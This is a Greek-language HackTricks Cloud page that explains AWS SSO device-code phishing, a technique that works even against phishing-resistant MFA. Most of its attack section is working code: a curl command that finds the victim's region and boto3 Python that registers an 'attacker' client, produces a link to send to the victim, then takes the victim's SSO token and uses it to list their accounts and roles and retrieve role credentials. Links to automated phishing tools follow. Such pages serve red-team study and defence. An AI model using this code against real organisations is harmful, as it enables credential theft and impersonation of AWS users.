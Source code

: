 # AWS - Κέντρο Ταυτότητας & Αποκέντρωση Ενιαίας Σύνδεσης (SSO) στο AWS

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Αλιεία Κωδικού Συσκευής AWS

Αρχικά προτάθηκε σε [**αυτήν την ανάρτηση στο blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), είναι δυνατό να σταλεί ένας **σύνδεσμος** σε έναν χρήστη χρησιμοποιώντας το AWS SSO που αν ο **χρήστης τον αποδεχτεί** ο επιτιθέμενος θα μπορεί να λάβει ένα **διακριτικό για να προσωποποιήσει τον χρήστη** και να έχει πρόσβαση σε όλους τους ρόλους στους οποίους ο χρήστης έχει πρόσβαση στο **Κέντρο Ταυτότητας**.

Για να πραγματοποιηθεί αυτή η επίθεση, οι προϋποθέσεις είναι:

* Το θύμα πρέπει να χρησιμοποιεί το **Κέντρο Ταυτότητας**
* Ο επιτιθέμενος πρέπει να γνωρίζει το **υποτομέα** που χρησιμοποιεί το θύμα `<victimsub>.awsapps.com/start`

Μόνο με αυτές τις πληροφορίες, ο **επιτιθέμενος θα μπορεί να στείλει έναν σύνδεσμο στον χρήστη** που αν **αποδεχτεί** θα χορηγήσει στον **επιτιθέμενο πρόσβαση στο λογαριασμό χρήστη του AWS**. 

### Επίθεση

1. **Εύρεση του υποτομέα**

Το πρώτο βήμα του επιτιθέμενου είναι να βρει τον υποτομέα που χρησιμοποιεί η εταιρεία θύματος στο Κέντρο Ταυτότητας τους. Αυτό μπορεί να γίνει μέσω **OSINT** ή **μαντείου + BF** καθώς οι περισσότερες εταιρείες θα χρησιμοποιούν το όνομά τους ή μια παραλλαγή του εδώ.

Με αυτές τις πληροφορίες, είναι δυνατό να αποκτηθεί η περιοχή όπου διαμορφώθηκε το Κέντρο Ταυτότητας:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Δημιουργήστε το σύνδεσμο για το θύμα & Αποστείλτε τον**

Εκτελέστε τον παρακάτω κώδικα για να δημιουργήσετε έναν σύνδεσμο σύνδεσης AWS SSO ώστε το θύμα να πιστοποιηθεί.\
Για την επίδειξη, εκτελέστε αυτόν τον κώδικα σε ένα παράθυρο python console και μην τον κλείσετε καθώς αργότερα θα χρειαστείτε μερικά αντικείμενα για να λάβετε το token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **Περιμένετε μέχρι ο θύμα να το αποδεχτεί**

Αν το θύμα **ήταν ήδη συνδεδεμένο στο AWS**, θα χρειαστεί απλώς να αποδεχτεί τη χορήγηση των δικαιωμάτων, αν δεν ήταν, θα πρέπει να **συνδεθεί και στη συνέχεια να αποδεχτεί τη χορήγηση των δικαιωμάτων**.\
Έτσι φαίνεται η πρόταση σήμερα:

<figure><img src="../../../.gitbook/assets/image (154).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Λάβετε το διακριτικό πρόσβασης SSO**

Αν το θύμα αποδέχτηκε την πρόταση, εκτελέστε αυτόν τον κώδικα για **να δημιουργήσετε ένα διακριτικό πρόσβασης SSO προσωποποιώντας τον χρήστη**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Το SSO access token είναι **έγκυρο για 8 ώρες**.

5. **Προσωποποίηση του χρήστη**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Αλιεία (Phishing) του μη αλιεύσιμου MFA

Είναι διασκεδαστικό να γνωρίζετε ότι η προηγούμενη επίθεση **λειτουργεί ακόμα κι αν χρησιμοποιείται ένα "μη αλιεύσιμο MFA" (webAuth)**. Αυτό συμβαίνει επειδή η προηγούμενη **διαδικασία ποτέ δεν αφήνει τον χρήστη τον τομέα OAuth που χρησιμοποιείται**. Όχι όπως σε άλλες αλιευτικές επιθέσεις όπου ο χρήστης χρειάζεται να αντικαταστήσει τον τομέα σύνδεσης, στην περίπτωση της διαδικασίας κώδικα συσκευής είναι προετοιμασμένος έτσι ώστε ένας **κώδικας να είναι γνωστός από μια συσκευή** και ο χρήστης μπορεί να συνδεθεί ακόμα και από διαφορετικό υπολογιστή. Εάν γίνει αποδεκτή η πρόταση, η συσκευή, απλώς με το **να γνωρίζει τον αρχικό κώδικα**, θα μπορεί να **ανακτήσει τα διαπιστευτήρια** του χρήστη.

Για περισσότερες πληροφορίες σχετικά με αυτό [**ελέγξτε αυτήν την ανάρτηση**](https://mjg59.dreamwidth.org/62175.html).

### Αυτόματα Εργαλεία

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Αναφορές

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγράφου**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
